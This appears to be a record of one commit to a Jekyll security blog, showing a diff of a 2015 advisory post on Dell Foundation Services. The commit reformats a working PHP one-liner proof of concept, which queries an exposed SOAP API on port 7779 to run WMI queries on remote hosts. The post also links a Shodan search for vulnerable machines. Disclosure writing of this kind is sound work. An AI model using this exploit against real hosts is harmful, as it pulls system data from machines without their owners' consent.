

Before and after one commit to lizardhq/lizardhq-website, a Jekyll site: the page built from _posts/2015-12-01-dell-foundation-services.2.markdown, in a window 1280 px wide. Shown: the part 678-976 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; Markdown is read by kramdown in place of the engine named in the settings.

`````diff
--- a/_posts/2015-12-01-dell-foundation-services.2.markdown
+++ b/_posts/2015-12-01-dell-foundation-services.2.markdown
@@ -21,10 +21,10 @@ One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(strin
 
 [Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.
 
-Quick PHP one-liner Proof-of-Concept:
+Quick PHP one-liner proof-of-concept:
 
 ````
-`php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"`
+php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"
 ````
 
 This can be expanded to:
`````
